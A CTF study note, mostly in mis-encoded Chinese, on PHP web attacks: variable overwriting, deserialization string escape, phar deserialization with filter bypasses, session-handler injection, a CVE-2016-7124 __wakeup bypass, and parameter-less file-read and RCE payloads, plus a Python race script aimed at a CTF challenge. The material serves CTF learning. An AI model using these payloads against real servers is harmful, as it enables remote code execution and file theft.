[TOC]

## PHPå˜é‡è¦†ç›–

```php
<?php
$hello = "world";
$b = "hello";
echo $$b; // echo $hello;

// 输出 world
```

### parse_str()

*`void parse_str(string $str[, array &$result])`*

把查询字符串解æ到å˜é‡ä¸­

>如æœæœªè®¾ç½® array å‚数，由该函数设置的å˜é‡å°†è¦†ç›–已存在的åŒåå˜é‡ã€‚
>
>php.ini 文件中的 magic_quotes_gpc 设置影å“该函数的输出。如æœå·²å¯ç”¨ï¼Œé‚£ä¹ˆåœ¨ parse_str() 解æ之å‰ï¼Œå˜é‡ä¼šè¢« addslashes() 转æ¢ã€‚

https://www.runoob.com/php/func-string-parse-str.html

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";

// æ¨è用法
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// ä¸å»ºè®®è¿™ä¹ˆç”¨
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
echo $arr[1]; // baz
?> 
```

### extract ()

*`int extract (array &$array)`*

ä»æ•°ç»„中将å˜é‡å¯¼å…¥åˆ°å½“å‰çš„符å·è¡¨

该函数使用数组键å作为å˜é‡å，使用数组键值作为å˜é‡å€¼ã€‚针对数组中的æ¯ä¸ªå…ƒç´ ï¼Œå°†åœ¨å½“å‰ç¬¦å·è¡¨ä¸­åˆ›å»ºå¯¹åº”的一个å˜é‡ã€‚

该函数返å›æˆåŠŸè®¾ç½®çš„å˜é‡æ•°ç›®ã€‚


https://www.runoob.com/php/func-array-extract.html

```php
<?php

$size = "large";
$var_array = array("color" => "blue",
                   " size"  => "medium",
                   "shape" => "sphere");
extract($var_array, EXTR_PREFIX_SAME, "exist");

echo "$color, $size, $shape, $exist_size\n";

?> 
```

*<u>awctf --- å˜é‡è¦†ç›–？</u>*

*<u>buuctf --- [[BJDCTF2020]Mark loves cat](https://buuoj.cn/challenges#[BJDCTF2020]Mark%20loves%20cat)</u>*

>　　$_SERVER["QUERY_STRING"]è·å–查询语å¥ï¼Œå®ä¾‹ä¸­å¯çŸ¥ï¼Œè·å–的是?åé¢çš„值
>
>　　$_SERVER["REQUEST_URI"] è·å–[http://www.xxx.com](http://www.xxx.com/)åé¢çš„值，包括/
>
>　　$_SERVER["SCRIPT_NAME"] è·å–当å‰è„šæœ¬çš„路径，如：index.php
>
>　　$_SERVER["PHP_SELF"] 当å‰æ­£åœ¨æ‰§è¡Œè„šæœ¬çš„文件å
>
>​		例å­ï¼šhttp://www.xxx.com/index.php?p=222&q=biuuu
>
>　　结æœï¼š
>
>　　$_SERVER["QUERY_STRING"] = “p=222&q=uâ€
>
>　　$_SERVER["REQUEST_URI"] = “/index.php?p=222&q=uâ€
>
>　　$_SERVER["SCRIPT_NAME"] = “/index.phpâ€
>
>　　$_SERVER["PHP_SELF"] = “/index.phpâ€

## PHPååºåˆ—化

PHPç±»ä¸å¯¹è±¡ï¼šç±»ã€å¯¹è±¡ã€æ–¹æ³•ã€å±æ€§

åºåˆ—化ä¸ååºåˆ—化：

- `string serialize ( mixed $value )`

  用äºåºåˆ—化对象或数组，并返å›ä¸€ä¸ªå­—符串。

  注æ„：如æœå±æ€§æ˜¯ä¿æŠ¤å’Œç§æœ‰çš„å±æ€§ï¼Œé‚£ä¹ˆä»–们åºåˆ—化åçš„å±æ€§å会被特殊字符包裹

- `mixed unserialize ( string $str )`

  用äºå°†é€šè¿‡`serialize()`函数åºåˆ—化å的对象或数组进行ååºåˆ—化，并返å›åŸå§‹çš„对象结æ„。

如何造æˆçš„ååºåˆ—化？首先就是**è¦æœ‰å¯ç”¨çš„魔术方法作为“跳æ¿â€ï¼Œä¸”存在一些åªè¦å‚æ•°å¯æ§å°±ä¼šé€ æˆç ´å的函数调用。**

1. ç›´æ¥æ§åˆ¶`unserialize()`çš„å‚数值

   pop链的æ„造：<u>*awctf --- HE-ezser*</u>

   <u>*adminpage*</u>

2. 文件读å–æ“作

   pharå‹ç¼©æ–‡ä»¶
   
   <u>*codeinlog*</u>

### PHPååºåˆ—化字符串逃逸

[PHPååºåˆ—化字符逃逸详解_filterååºåˆ—化_zhang三的åšå®¢-CSDNåšå®¢](https://blog.csdn.net/qq_45521281/article/details/107135706)

php代ç åºåˆ—化å的基本格å¼ï¼š

```
O:<length>:"<class name>":<n>:{
<field type 1>:<field length 1>:"<field name 1>";<field value type 1>:<field value 1>;
...
<field type n>:<field length n>:"<field name n>";<field value type n>:<field value n>;} 
```

- O:表示åºåˆ—化的事对象
- < length>:表示åºåˆ—化的类å称长度
- < class name>：表示åºåˆ—化的类的å称
- < n >:表示被åºåˆ—化的对象的å±æ€§ä¸ªæ•°
- {…………}：å±æ€§åˆ—表
- < field type >：å±æ€§ç±»å‹
- < field length >：å±æ€§å长度
- < field name >：å±æ€§å
- < field value type >：å±æ€§å€¼ç±»å‹
- < field value >：å±æ€§å€¼


此类题目的本质就是改å˜åºåˆ—化字符串的长度，导致ååºåˆ—化æ¼æ´

è¿™ç§é¢˜ç›®æœ‰ä¸ªå…±åŒç‚¹ï¼š

1. phpåºåˆ—化å的字符串ç»è¿‡äº†æ›¿æ¢æˆ–者修改，导致字符串长度å‘生å˜åŒ–。
2. 总是先进行åºåˆ—化，å†è¿›è¡Œæ›¿æ¢ä¿®æ”¹æ“作。

**åºåˆ—化å导致字符串å˜é•¿**：<u>*awctf --- 蒸滴简å•*</u>

```php
<?php
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='aaaa';
    public $pass='123456';
}
$a=new A();
echo serialize($a)."\n";
$res=filter(serialize($a));

$c=unserialize($res);
echo $c->name;
?>
```

**åºåˆ—化å导致字符串å˜çŸ­**：<u>*buuctf --- [å®‰æ´µæ¯ 2019]easy_serialize_php*</u>

```php
<?php
function str_rep($string){
	return preg_replace( '/php|test/','', $string);
}

$test['name'] = '111phpphpphpphpphpphptest';
$test['sign'] ='111";s:4:"sign";s:3:"222";s:6:"number";s:4:"2023";}'; 
$test['number'] = '2020';
$temp = str_rep(serialize($test));
printf($temp);
$fake = unserialize($temp);
echo "\n";
print("name:".$fake['name']."\n");
print("sign:".$fake['sign']."\n");
print("number:".$fake['number']."\n");

```



### pharååºåˆ—化

https://blog.csdn.net/q20010619/article/details/120833148

**è¦å°†php.ini中的phar.readonly选项设置为Off，å¦åˆ™æ— æ³•ç”Ÿæˆphar文件**

phar文件是php里类似äºJAR的一ç§æ‰“包文件本质上是一ç§å‹ç¼©æ–‡ä»¶ï¼Œåœ¨PHP 5.3 或更高版本中默认开å¯ï¼Œä¸€ä¸ªphar文件一个分为四部分：a.phar

>1.a stub
>
>​    å¯ä»¥ç†è§£ä¸ºä¸€ä¸ªæ ‡å¿—，格å¼ä¸ºxxx<?php xxx; __HALT_COMPILER();?>，å‰é¢å†…容ä¸é™ï¼Œä½†å¿…须以__HALT_COMPILER();æ¥ç»“尾，å¦åˆ™phar扩展将无法识别这个文件为phar文件
>
>2.a manifest describing the contents
>
>​	phar文件本质上是一ç§å‹ç¼©æ–‡ä»¶ï¼Œå…¶ä¸­æ¯ä¸ªè¢«å‹ç¼©æ–‡ä»¶çš„æƒé™ã€å±æ€§ç­‰ä¿¡æ¯éƒ½æ”¾åœ¨è¿™éƒ¨åˆ†ã€‚这部分还会以åºåˆ—化的形å¼å­˜å‚¨ç”¨æˆ·è‡ªå®šä¹‰çš„meta-data，这是上述攻击手法最核心的地方
>
>3.the file contents
>
>被å‹ç¼©æ–‡ä»¶çš„内容
>
>4.[optional] a signature for verifying Phar integrity (phar file format only)
>
>​	ç­¾å，放在文件末尾ã€

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //åç¼€å必须为phar
    $phar->startBuffering();
    $phar->setStub("asdas<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加è¦å‹ç¼©çš„文件
    //ç­¾å自动计算
    $phar->stopBuffering();
?>
```

meta-data是以åºåˆ—化的形å¼å­˜å‚¨çš„

php一大部分的文件系统函数在通过phar://伪å议解æphar文件时，都会将meta-data进行ååºåˆ—化，测试åå—å½±å“的函数如下


pharåè®®è¦æ±‚：

- php大äº5.3.0
- 需è¦å°†php.iniçš„å‚æ•°phar.readonly设置为off

**æ¼æ´åˆ©ç”¨æ¡ä»¶**

1. phar文件è¦èƒ½å¤Ÿä¸Šä¼ åˆ°æœåŠ¡å™¨ç«¯ã€‚
2. è¦æœ‰å¯ç”¨çš„魔术方法作为“跳æ¿â€ã€‚
3. 文件æ“作函数的å‚æ•°å¯æ§ï¼Œä¸”`:`ã€`/`ã€`phar`等特殊字符没有被过滤

#### å°†phar伪造æˆå…¶ä»–æ ¼å¼çš„文件

如æœæ–‡ä»¶ä¸Šä¼ ç•Œé¢å端代ç ä¼šæ£€æŸ¥æ–‡ä»¶ç±»å‹çš„è¯ï¼Œå°±éœ€è¦å°† phar 文件未造æˆå…¶ä»–æ ¼å¼æ–‡ä»¶

ç”±äºphp识别phar文件是通过其文件头的stub，更确切一点æ¥è¯´æ˜¯`__HALT_COMPILER();`这段代ç ï¼Œå¯¹å‰é¢çš„内容或者åç¼€å是没有è¦æ±‚的。那么我们就å¯ä»¥é€šè¿‡æ·»åŠ ä»»æ„的文件头+修改åç¼€åçš„æ–¹å¼å°†phar文件伪装æˆå…¶ä»–æ ¼å¼çš„文件

>474946383961, .gif, "GIF 89A"
>
>474946383761, .gif, "GIF 87A"

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //åç¼€å必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加è¦å‹ç¼©çš„文件
    //ç­¾å自动计算
    $phar->stopBuffering();
?>
```


#### 绕过phar关键字检测

```
if (preg_match("/^php|^file|^gopher|^http|^https|^ftp|^data|^phar|^smtp|^dict|^zip/i",$filename){
    die();
}
```

绕过方法

```
// Bzip / Gzip 当ç¯å¢ƒé™åˆ¶äº†pharä¸èƒ½å‡ºç°åœ¨å‰é¢çš„字符里。å¯ä»¥ä½¿ç”¨compress.bzip2://å’Œcompress.zlib://绕过
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///home/sx/test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
// 还å¯ä»¥ä½¿ç”¨ä¼ªå议的方法绕过
php://filter/resource=phar:///test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### 绕过__HALT_COMPILER特å¾æ£€æµ‹

因为phar中的`a stub`字段必须以`__HALT_COMPILER();`字符串æ¥ç»“尾，å¦åˆ™`phar`扩展将无法识别这个文件为`phar`文件，所以这段字符串ä¸èƒ½çœç•¥ï¼Œåªèƒ½ç»•è¿‡

**方法一：**

首先将 phar 文件使用 gzip 命令进行å‹ç¼©ï¼Œå¯ä»¥çœ‹åˆ°å‹ç¼©ä¹‹å的文件中就没有了`__HALT_COMPILER()`，将 phar.gz å缀改为 png（png文件å¯ä»¥ä¸Šä¼ ï¼‰


```
filename=phar://pharppp.phar.gz/pharppp.phar
```

**方法二**

å°†phar的内容写进å‹ç¼©åŒ…注释中，也åŒæ ·èƒ½å¤Ÿååºåˆ—化æˆåŠŸï¼Œå‹ç¼©ä¸ºzip也会绕过该正则

```
$phar_file = serialize($exp);
    echo $phar_file;
    $zip = new ZipArchive();
    $res = $zip->open('1.zip',ZipArchive::CREATE); 
    $zip->addFromString('crispr.txt', 'file content goes here');
    $zip->setArchiveComment($phar_file);
    $zip->close();
```

这篇文章在phpæºç è§’度给出分æ：https://www.anquanke.com/post/id/240007

> pharååºåˆ—化过程中，对metadata进行解æ的时候会进行`php_var_unserialize()`å°†Phar中的metadata进行ååºåˆ—化

<u>*ctfshow --- 276*</u>

<u>*BUUCTF --- [NCTF2019]phar matches everything*</u>

```python
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import requests
import threading

flag = False
url = "http://8f6f1872-fd37-4431-a005-55b6b4e1d2a2.challenge.ctf.show/"
data = open('./phar.phar', 'rb').read()

pre_resp = requests.get(url)
if pre_resp.status_code != 200:
    print(url + ' -> nonono')
    exit(1)

def upload():
    global flag
    while not flag:
        requests.post(url+"?fn=phar.phar", data=data)


def read():
    global flag
    while not flag:
        r = requests.post(url+"?fn=phar://phar.phar/", data="")
        if "ctfshow{" in r.text and flag is False:
            print(r.text)
            flag = True

if __name__ == "__main__":
    a = threading.Thread(target=upload)
    b = threading.Thread(target=read)
    a.start()
    b.start()
    a.join()
    b.join()
```

### sessionååºåˆ—化

先说一下 PHP å¤„ç† session 的一些细节信æ¯ã€‚

PHP 在存储 session 的时候会进行åºåˆ—化，读å–的时候会进行ååºåˆ—化。它内置了多ç§ç”¨æ¥åºåˆ—化/ååºåˆ—化的引æ“，用äºå­˜å– `$_SESSION` æ•°æ®ï¼š

1. `php`: é”®å + `|` + ç»è¿‡ `serialize()`/`unserialize()` 处ç†çš„值。这是ç°åœ¨é»˜è®¤çš„引æ“。
2. `php_binary`: é”®å的长度对应的 ASCII 字符 + é”®å + ç»è¿‡ `serialize()`/`unserialize()` 处ç†çš„值
3. `php_serialize`: ç›´æ¥ä½¿ç”¨ `serialize()`/`unserialize()` 函数。(php>=5.5.4)

session 相关的信æ¯ï¼Œå¯ä»¥åœ¨ phpinfo 里查到：


1. `session.auto_start`: 是å¦è‡ªåŠ¨å¯åŠ¨ä¸€ä¸ª session
2. `session.save_path`: 设置 session 的存储路径
3. `session.save_handler`: 设置ä¿å­˜ session 的函数
4. `session.serialize_handler`: 设置用æ¥åºåˆ—化/ååºåˆ—化的引æ“
5. `session.upload_progress.enabled`: å¯ç”¨ä¸Šä¼ è¿›åº¦è·Ÿè¸ªï¼Œå¹¶å¡«å……$ _SESSIONå˜é‡ï¼Œé»˜è®¤å¯ç”¨
6. `session.upload_progress.cleanup`: 读å–所有POSTæ•°æ®ï¼ˆå³å®Œæˆä¸Šä¼ ï¼‰åç«‹å³æ¸…ç†è¿›åº¦ä¿¡æ¯ï¼Œé»˜è®¤å¯ç”¨

在我这个 PHP çš„é…置中，ä¸ä¼šè‡ªåŠ¨è®°å½• session，session 内容是以文件方å¼æ¥å­˜å‚¨çš„（文件以 `sess_` + sessionid 命å）；由äºå­˜å‚¨çš„路径为空，所以è¿è¡Œçš„时候需è¦æŒ‡å®šä¸€ä¸‹ï¼›åºåˆ—化/ååºåˆ—引æ“为 `php`。

```
┌──(root💀kali)-[/home/soyamilk/æ¡Œé¢]
└─# php ser_session.php                     
                                                                                                                                                                                                     
┌──(root💀kali)-[/home/soyamilk/æ¡Œé¢]
└─# php -d 'session.serialize_handler=php_binary' ser_session.php 
                                                                                                                                                                                                     
┌──(root💀kali)-[/home/soyamilk/æ¡Œé¢]
└─# php -d 'session.serialize_handler=php_serialize' ser_session.php
```



**进行利用：**

ä¸åŒçš„åºåˆ—化/ååºåˆ—化引æ“对数æ®å¤„ç†æ–¹å¼ä¸åŒï¼Œé€ æˆäº†å®‰å…¨é—®é¢˜ã€‚

引æ“为 php_binary 的时候，暂未å‘ç°æœ‰æ•ˆçš„利用方å¼ï¼Œæ‰€ä»¥ç›®å‰ä¸»è¦è¿˜æ˜¯ php ä¸ php_serialize 两者混用的时候导致的问题。

phpinfo


set_session.php

```php
<?php
    ini_set('session.serialize_handler', 'php_serialize');
    ini_set('session.save_path', 'D:\phpstudy_pro\WWW\PHP_session_unserialize_demo\session_save');
	session_start();
	$_SESSION['name0'] = 'wi1shu';
    if (array_key_exists('payload', $_GET)){
        $_SESSION['name1'] = $_GET['payload'];
    }else{
        $_SESSION['name1'] = '"|s:6:"wi1shu';
    }

    print_r(session_id());
```

unserialize_session.php

```php
<?php
    ini_set('session.save_path', 'D:\phpstudy_pro\WWW\PHP_session_unserialize_demo\session_save');
    session_start();
    var_dump($_SESSION);
```


php 引æ“çš„æ ¼å¼ä¸ºï¼šé”®å + `|` + ç»è¿‡ `serialize()`/`unserialize()` 处ç†çš„值。那么对äºè¿™ä¸ªä¾‹å­æ¥è¯´ï¼Œname 就是 `a:2:{s:5:"name0";s:6:"wi1shu";s:5:"name1";s:13:""`，`s:6:"wi1shu";}` 就是待ååºåˆ—化的值。那么这里就é常清楚了，本质上就是通过 `|` æ¥å®Œæˆæ³¨å…¥ï¼ˆ`"` 负责闭åˆå¼•å·ï¼Œé˜²æ­¢è§£æ错误），让 php 引æ“误以为å‰é¢å…¨æ˜¯ name，这样å‚ä¸ååºåˆ—化的数æ®å°±å¯ä»¥ç”±æˆ‘们æ¥æ§åˆ¶äº†ã€‚

举个例å­

test_session.php

```php
<?php
highlight_file(__FILE__);
ini_set('session.save_path', dirname(__FILE__).'\session_save');
class f4ke{
    public $name;
    function __wakeup(){
        echo "Whata rey oud oing?";
    }
    function __destruct(){
        eval($this->name);
    }
}

session_start();
var_dump($_SESSION);
$str = new f4ke();
?>
```

ç»“åˆ set_session.php 就能够å®ç°ååºåˆ—化命令执行






###  CVE-2016-7124

这是一个 PHP çš„ CVE，影å“版本：

1. PHP5 < 5.6.25
2. PHP7 < 7.0.10

当åºåˆ—化字符串中表示对象中å±æ€§ä¸ªæ•°çš„数字，大äºçœŸæ­£çš„å±æ€§ä¸ªæ•°æ—¶ï¼Œå°±ä¼šè·³è¿‡ `__wakeup` 函数的执行（会触å‘两个长度相关的 `Notice: Unexpected end of serialized data`）。

demo.php

```php
<?php
highlight_file(__FILE__);
class A {
    public $test;

    function __wakeup() {
        $this->test = new B;
    }

    function __destruct() {
        $this->test->check();
    }
}

class B {
    function check() {
        echo phpversion()."\n";
    }
}

class C {
    public $boom;
    function check() {
        eval($this->boom);
    }
}

if (isset($_GET['payload'])){
    $user = unserialize($_GET['payload']);
}else{
    $user = new A();
    $user->test = new B();
}
```

```
O:1:"A":1:{s:4:"test";O:1:"C":1:{s:4:"boom";s:10:"phpinfo();";}}
修改为
O:1:"A":1:{s:4:"test";O:1:"C":1:{s:4:"boom";s:10:"phpinfo();";}}
å³å¯æ‰§è¡Œpayload
```




## æ— å‚数读文件

### 查看当å‰ç›®å½•æ–‡ä»¶å

- `localeconv()`：返å›ä¸€åŒ…å«æœ¬åœ°æ•°å­—åŠè´§å¸æ ¼å¼ä¿¡æ¯çš„数组。而数组第一项就是`.`

  

- `current()`：返å›æ•°ç»„中的å•å…ƒï¼Œé»˜è®¤å–第一个值，或者使用`pos(localeconv());`，`pos`是`current`的别å，如æœéƒ½è¢«è¿‡æ»¤è¿˜å¯ä»¥ä½¿ç”¨`reset()`，该函数返å›æ•°ç»„第一个å•å…ƒçš„值，如æœæ•°ç»„ä¸ºç©ºåˆ™è¿”å› `FALSE`

  

- `chr(46)`就是字符`.`

  ```
  æ„造46的几个方法
  chr(rand()) (ä¸å®é™…，看è¿æ°”)
   
  chr(time())
   
  chr(current(localtime(time())))
  ```

  `chr(time())`：`chr()`函数以256为一个周期，所以`chr(46)`,`chr(302)`,`chr(558)`都等äº`.`，所以使用`chr(time())`，一个周期必定出ç°ä¸€æ¬¡`.`

  

  `chr(current(localtime(time())))`：数组第一个值æ¯ç§’+1，所以最多60秒就一定能得到46，用`current`或者`pos`就能è·å¾—`.`

  

- `phpversion()`：返å›PHP版本，如`5.5.9`

  `floor(phpversion())`è¿”å› `5`

  `sqrt(floor(phpversion()))`è¿”å›`2.2360679774998`

  `tan(floor(sqrt(floor(phpversion()))))`è¿”å›`-2.1850398632615`

  `cosh(tan(floor(sqrt(floor(phpversion())))))`è¿”å›`4.5017381103491`

  `sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`è¿”å›`45.081318677156`

  `ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`è¿”å›`46`

  `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`è¿”å›`"."`

- `crypt()`：

  `hebrevc(crypt(arg))`å¯ä»¥éšæœºç”Ÿæˆä¸€ä¸ªhash值，第一个字符éšæœºæ˜¯`$`(大概ç‡) 或者 `"."`(å°æ¦‚ç‡) 然å通过`chr(ord())`åªå–第一个字符

  ps：`ord()`è¿”å›å­—符串中第一个字符的Ascii值

  `print_r(scandir(chr(ord(hebrevc(crypt(time()))))));//（多刷新几次）`

  

  åŒç†ï¼š`strrev(crypt(serialize(array())))`也å¯ä»¥å¾—到`"."`，åªä¸è¿‡`crypt(serialize(array()))`的点出ç°åœ¨æœ€å一个字符，需è¦ä½¿ç”¨`strrev()`逆åºï¼Œç„¶å使用`chr(ord())`è·å–第一个字符

  `print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));`

  

  PHP的函数如此强大，è·å–`"."`的方法肯定还有许多

  正常的，我们还å¯ä»¥ç”¨`print_r(scandir('ç»å¯¹è·¯å¾„'));`æ¥æŸ¥çœ‹å½“å‰ç›®å½•æ–‡ä»¶å

  è·å–ç»å¯¹è·¯å¾„å¯ç”¨çš„有`getcwd()`å’Œ`realpath('.')`

  所以我们还å¯ä»¥ç”¨`print_r(scandir(getcwd()));`输出当å‰æ–‡ä»¶å¤¹æ‰€æœ‰æ–‡ä»¶å

### 读å–当å‰ç›®å½•æ–‡ä»¶


`show_source(end(scandir(getcwd())));`或者用`readfile`ã€`highlight_file`ã€`file_get_contents` 等读文件函数都å¯ä»¥ï¼ˆä½¿ç”¨`readfile`å’Œ`file_get_contents`读文件，显示在æºç å¤„）

ps：`readgzfile()`也å¯è¯»æ–‡ä»¶ï¼Œå¸¸ç”¨äºç»•è¿‡è¿‡æ»¤

`array_reverse()`： 以相å的元素顺åºè¿”å›æ•°ç»„，本æ¥åœ¨æœ€å一ä½ï¼Œå过æ¥å°±æˆä¸ºç¬¬ä¸€ä½ï¼Œå¯ä»¥ç›´æ¥ç”¨`current`或者`pos`读å–

`show_source(current(array_reverse(scandir(getcwd()))));`

如æœæ˜¯å€’数第二个我们å¯ä»¥ç”¨ï¼š`show_source(next(array_reverse(scandir(getcwd()))));`

>`next()` 函数用äºå°†æ•°ç»„内部的指针å‘å移动，并返å›å½“å‰æŒ‡é’ˆä½ç½®çš„下一个元素的值。
>
>```
>$fruits = array("apple", "banana", "orange");
>echo current($fruits); // Output: "apple"
>
>next($fruits); // 移动指针到下一个元素
>echo current($fruits); // Output: "banana"
>
>next($fruits); // 移动指针到下一个元素
>echo current($fruits); // Output: "orange"
>
>next($fruits); // ç§»åŠ¨æŒ‡é’ˆåˆ°ä¸‹ä¸€ä¸ªå…ƒç´ ï¼Œæ­¤æ—¶æ²¡æœ‰ä¸‹ä¸€ä¸ªå…ƒç´ ï¼Œè¿”å› false
>echo current($fruits); // Output: false
>在上述示例中，通过使用 next() 函数，我们将数组指针ä»ç¬¬ä¸€ä¸ªå…ƒç´ ç§»åŠ¨åˆ°ç¬¬äºŒä¸ªå…ƒç´ ï¼Œç„¶åå†ç§»åŠ¨åˆ°ç¬¬ä¸‰ä¸ªå…ƒç´ ï¼Œæœ€å移动到了最å一个元素åè¿”å›äº† false
>```

如æœä¸æ˜¯æ•°ç»„的最å一个或者倒数第二个呢？

我们å¯ä»¥ä½¿ç”¨`array_rand(array_flip())`，`array_flip()`是交æ¢æ•°ç»„的键和值，`array_rand()`ä»æ•°ç»„中éšæœºé€‰æ‹©ä¸€ä¸ªæˆ–多个键，并返å›é€‰å®šçš„键或键的数组

所以我们å¯ä»¥ç”¨ï¼š`show_source(array_rand(array_flip(scandir(getcwd()))));`

或者：`show_source(array_rand(array_flip(scandir(current(localeconv())))));`

（å¯ä»¥è‡ªå·±ç»“åˆå‰é¢æ€»ç»“çš„æ„造`"."`的方法切åˆå®é™…过滤情况读å–，å文就åªåˆ—举简å•çš„语å¥ï¼‰

### 查看上一级目录文件å

`dirname()` ：返å›è·¯å¾„中的目录部分，比如：


如æœä¼ å…¥çš„值是ç»å¯¹è·¯å¾„（ä¸åŒ…å«æ–‡ä»¶å），则返å›çš„是上一层路径，传入的是文件åç»å¯¹è·¯å¾„则返å›æ–‡ä»¶çš„当å‰è·¯å¾„

`chdir()` ：改å˜å½“å‰å·¥ä½œç›®å½•è¿”å›å€¼ä¸º`bool`

- dirname()方法

  `print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件`

  `chdir(dirname(getcwd())); //设置上级目录为è¿è¡Œç›®å½•`

- æ„造`..`

  我们`scandir(getcwd())`出ç°çš„数组第二个就是`".."`，所以å¯ä»¥ç”¨`next()`è·å–`print_r(next(scandir(getcwd())));`

  结åˆä¸Šæ–‡çš„一些æ„造都是å¯ä»¥è·å¾—`..`çš„ ：`next(scandir(chr(ord(hebrevc(crypt(time()))))))`

### 读å–上级目录文件

ç›´æ¥`print_r(readfile(array_rand(array_flip(scandir(dirname(getcwd()))))));`是ä¸å¯ä»¥çš„，会报错，因为默认是在当å‰å·¥ä½œç›®å½•å¯»æ‰¾å¹¶è¯»å–这个文件，而这个文件在上一层目录，所以è¦å…ˆæ”¹å˜å½“å‰å·¥ä½œç›®å½•

å‰é¢å†™åˆ°äº†`chdir()`，使用：`show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));`å³å¯æ”¹å˜å½“å‰ç›®å½•ä¸ºä¸Šä¸€å±‚目录并读å–文件：


如æœä¸èƒ½ä½¿ç”¨`dirname()`，å¯ä»¥ä½¿ç”¨æ„造`..`çš„æ–¹å¼åˆ‡æ¢è·¯å¾„并读å–：

但是这里切æ¢è·¯å¾„å`getcwd()`å’Œ`localeconv()`ä¸èƒ½æ¥æ”¶å‚数，因为语法ä¸å…许，我们å¯ä»¥ç”¨ä¹‹å‰çš„`hebrevc(crypt(arg))`

这里`crypt()`å’Œ`time()`å¯ä»¥æ¥æ”¶å‚数，äºæ˜¯æ„造：

```
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));
或更å¤æ‚的：show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
还å¯ä»¥ç”¨ï¼šshow_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，ä¸ç„¶æ‰‹åŠ¨è¦åˆ·æ–°å¾ˆä¹…，如æœæ–‡ä»¶æ˜¯æ­£æ•°æˆ–倒数第一个第二个最好ä¸è¿‡äº†ï¼Œç›´æ¥å®šä½
```

还有一ç§æ„造方法`if()`：（这ç§æ›´ç›´è§‚些，并且ä¸éœ€è¦æ‰¾å¯æ¥æ”¶å‚数的函数）

`if(chdir(next(scandir(getcwd()))))show_source(array_rand(array_flip(scandir(getcwd()))));`

### 查看和读å–多层上级路径

**查看多层上级路径：**

`scandir(dirname(chdir(next(scandir(dirname(chdir(dirname(getcwd()))))))));`


`scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(current(localeconv()))))))))))))))));` è¦åˆ·æ–°å¾ˆä¹…，建议é…åˆburp爆破使用


**读å–多层上层路径文件：**

`array_rand(array_flip(scandir(dirname(chdir(next(scandir(dirname(chdir(dirname(getcwd()))))))))));`


`array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(current(localeconv()))))))))))))))))));`		建议é…åˆburp爆破使用


### 查看和读å–根目录文件

`hebrevc(crypt(arg))`或`crypt(arg)`所生æˆçš„字符串最å一个字符有几ç‡æ˜¯`/`，å†ç”¨`strrev()`å转å†è·å–第一ä½å­—符就有几ç‡è·å¾—`/`（读根目录文件需è¦æœ‰æƒé™ï¼‰

`chr(ord(strrev(hebrevc(crypt(time())))))`


åŒæ ·çš„：

    if(chdir(chr(ord(strrev(crypt(serialize(array())))))))print_r(scandir(getcwd()));


也å¯ä»¥æŸ¥çœ‹æ ¹ç›®å½•æ–‡ä»¶ï¼Œä½†æ˜¯ä¹Ÿä¼šå—到æƒé™é™åˆ¶ï¼Œä¸ä¸€å®šæˆåŠŸ

读根目录文件：(也是需è¦æƒé™)

    if(chdir(chr(ord(strrev(crypt(serialize(array())))))))show_source(array_rand(array_flip(scandir(getcwd()))));

## æ— å‚数命令执行（RCE）

```php
<?php
highlight_file(__FILE__);
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) { 
    eval($_GET['code']);
}
?>
```

我们å¯ä»¥ä½¿ç”¨æ— å‚数函数任æ„读文件，也å¯ä»¥æ‰§è¡Œå‘½ä»¤ï¼š

既然传入的`code`值ä¸èƒ½å«æœ‰å‚数，那我们å¯ä¸å¯ä»¥æŠŠå‚数放在别的地方，`code`用无å‚数函数æ¥æ¥æ”¶å‚数呢？这样就å¯ä»¥æ‰“ç ´æ— å‚数函数的é™åˆ¶ï¼š

首先想到请求头å‚æ•°`headers`，因为`headers`我们用户å¯æ§


### getallheaders()å’Œapache\_request\_headers()

`getallheaders()`是`apache_request_headers()`的别å函数，但是该函数åªèƒ½åœ¨`Apache`ç¯å¢ƒä¸‹ä½¿ç”¨ï¼Œä»»ä½•`header`头部都å¯åˆ©ç”¨ï¼š

先查看哪个å‚数在第一ä½ï¼Œç„¶åç›´æ¥ä¿®æ”¹ç¬¬ä¸€ä½çš„`header`å‚数为payload，然å选择到它执行å³å¯ã€‚


`system(next(getallheaders()))`



### get\_defined\_vars()

